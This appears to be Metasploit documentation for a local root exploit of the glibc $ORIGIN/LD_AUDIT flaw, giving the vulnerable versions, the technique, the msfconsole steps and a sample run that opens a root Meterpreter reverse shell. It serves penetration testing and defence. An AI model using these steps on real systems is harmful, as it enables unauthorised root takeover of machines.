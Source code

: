 ## Description

  This module attempts to gain root privileges on Linux systems by abusing a vulnerability in the GNU C Library (glibc) dynamic linker - aka glibc `$ORIGIN` expansion vulnerability.


## Vulnerable Application

  glibc `ld.so` in versions before 2.11.3, and 2.12.x before 2.12.2 does not properly restrict use of the `LD_AUDIT` environment variable when loading setuid executables. This allows control over the `$ORIGIN` library search path resulting in execution of arbitrary shared objects.

  This module opens a file descriptor to the specified suid executable via a hard link, then replaces the hard link with a shared object before instructing the linker to execute the file descriptor, resulting in arbitrary code execution.

  The specified setuid binary must be readable and located on the same file system partition as the specified writable directory.

  This module has been tested successfully on:

  * glibc 2.5 on CentOS 5.4 (x86_64)
  * glibc 2.5 on CentOS 5.5 (x86_64)
  * glibc 2.12 on Fedora 13 (i386, x86_64)

  RHEL 5 is reportedly affected, but untested.

  Some versions of `ld.so` hit a failed assertion in `dl_open_worker` causing exploitation to fail.


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. Do: `use exploit/linux/local/glibc_origin_expansion_priv_esc`
  4. Do: `set SESSION [SESSION]`
  5. Do: `check`
  6. Do: `run`
  7. You should get a new *root* session


## Options

  **SESSION**

  Which session to use, which can be viewed with `sessions`

  **WritableDir**

  A writable directory file system path. (default: `/tmp`)


## Scenarios

  ```
  msf > use exploit/linux/local/glibc_origin_expansion_priv_esc 
  msf exploit(linux/local/glibc_origin_expansion_priv_esc) > set session 1
  session => 1
  msf exploit(linux/local/glibc_origin_expansion_priv_esc) > run

  [*] Started reverse TCP handler on 172.16.191.244:4444 
  [+] The target appears to be vulnerable
  [*] Using target: Linux x86
  [*] Writing '/tmp/.R5Ork' (1279 bytes) ...
  [*] Writing '/tmp/.yE35DWbLd' (320 bytes) ...
  [*] Writing '/tmp/.sk7Z3Vl7vJ' (207 bytes) ...
  [*] Launching exploit...
  [*] Sending stage (857352 bytes) to 172.16.191.138
  [*] Meterpreter session 2 opened (172.16.191.244:4444 -> 172.16.191.138:59187) at 2018-01-27 04:21:24 -0500

  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : fedora13.localdomain
  OS           : Fedora 13 (Linux 2.6.33.3-85.fc13.i686.PAE)
  Architecture : i686
  BuildTuple   : i486-linux-musl
  Meterpreter  : x86/linux
  meterpreter >
  ```

